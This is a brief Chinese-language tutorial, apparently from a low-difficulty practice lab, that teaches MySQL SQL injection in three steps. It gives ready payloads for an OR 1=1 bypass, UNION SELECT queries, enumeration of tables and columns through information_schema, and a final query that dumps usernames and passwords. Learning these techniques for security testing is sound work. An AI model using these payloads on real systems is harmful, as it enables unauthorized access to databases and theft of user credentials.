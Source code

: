 Low-level
---
通常 sql 語法會長這樣：sql = SELECT * FROM (tabel_name) WHERE (column_name) = '$id';

SQL injection 旨在正常的 sql 語法中執行惡意的 sql 語法來得到敏感資料(i.g. 帳號密碼...)。

Step 1.
---

可以更改上面 '$id' 的部分，改成：1' OR 1 = 1; #

(p.s. 有時候會因為'導致 query 失敗，要注意！)

因為 OR 的關係，導致該語法會 query 所有的使用者出來。

Step 2.
---

由於我們會想知道更多資訊，會使用 UNION SELECT ... 去做二次查詢

因為 SELECT 出來的變數數量會被前台顯示限制住，所以可以會加入 group_concat(variable1, variable2, ...) 全部顯示出來。

因此可以將 '$id' 改成：UNION SELECT version(), database(); # 來查詢資料庫

Step 3.
---

MySQL 5.0 以上存在 information_schema，可以利用 information_schema 獲得資料庫進一步資訊

找出資料庫裡所對應的所有資料表：SELECT table_name FROM information_schema.tables

套用概念可以寫成：1' UNION SELECT 1, group_concat(table_name) FROM information_schema.tables WHERE table_schema = database(); #

上面語法可以看到系統會使用到那些 Table 進行 query，接著再根據 Table 去查該 Table 有哪些欄位(column)：

改寫成：1' UNION SELECT 1,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users'; #

知道使用哪張 Table，又知道 Table 裡面有哪些欄位，那就可以來查想要的資料了

查看帳號和密碼：1' UNION SELECT 1, group_concat(user, password) FROM users; #
